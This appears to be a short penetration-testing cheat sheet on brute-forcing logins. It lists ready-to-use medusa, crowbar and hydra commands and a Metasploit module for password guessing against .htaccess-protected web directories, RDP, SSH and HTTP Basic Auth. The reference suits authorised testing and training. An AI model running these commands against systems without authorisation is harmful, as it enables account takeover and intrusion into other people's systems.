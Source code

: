 # Brute-Forcing

>  A brute-force attack consists of submitting many passwords or passphrases with the hope of eventually guessing correctly.

## .htaccess-protected web directory

```bash
#Change /admin with the name of the directory
medusa -h $IPADDRESS -u $USER -P $wordlist -M http -m DIR:/admin
```

_____

## RDP

```bash
#-n 1: number of threads
crowbar -b rdp -s $IPADDRESS -u $USER -C $WORDLIST -n 1
```

_____

## SSH

```bash
hydra -l $USER -P $WORDLIST ssh://$IPADDRESS
```
_____

## Basic AUTH

```bash
Metasploit module: auxiliary/scanner/http/http_login
```
